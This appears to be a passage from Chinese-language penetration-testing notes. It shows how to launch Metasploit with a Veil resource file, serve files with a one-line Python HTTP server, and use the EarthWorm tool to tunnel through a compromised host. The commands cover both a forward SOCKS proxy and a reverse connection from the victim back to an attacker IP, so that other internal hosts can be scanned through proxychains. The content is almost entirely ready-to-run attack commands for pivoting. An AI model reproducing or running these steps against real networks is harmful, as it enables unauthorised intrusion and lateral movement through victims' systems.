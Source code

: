 使用之前生成的 veil.rc

> msfconsole -r veil.rc

一句话开启 http 服务，虚拟机里开启，在外访问虚拟机 ip 即可下载虚拟机文件：

> ```
> python -m SimpleHTTPServer 80
> ```

### ew

tools: 

> http://rootkiter.com/EarthWorm

新版 tools： 

> http://rootkiter.com/Termite/

****正向：****

**被攻击机(跳板)：** 

temp 目录下:

> unzip ew.zip
>
> file /sbin/init (查看 linux 位数)
>
> chmod 755 ew_for_Linux
>
> ./ew_for_Linux -s ssocksd -l 9999 (侦听 0.0.0.0:9999)
>
> netstat -pantu|grep 9999 (查看是否侦听成功)

**攻击机：**

> proxychain 设置 socks5 为跳板 ip port
>
> proxychain nmap 即可以用跳板代理扫描其他主机

****反向：****

**攻击机：**

> chmod 777 ./ew_for_linux64
>
> ./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机 2333 端口，转发到本机的 1080 端口，访问本机的 1080 端口，相当访问被攻击机的 2333

设置 

> proxychain socks5 本主机 ip port：1080
>
> proxychain 代理即可

**被攻击机：**

> chmod 777 ew_for_linux
>
> ./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333
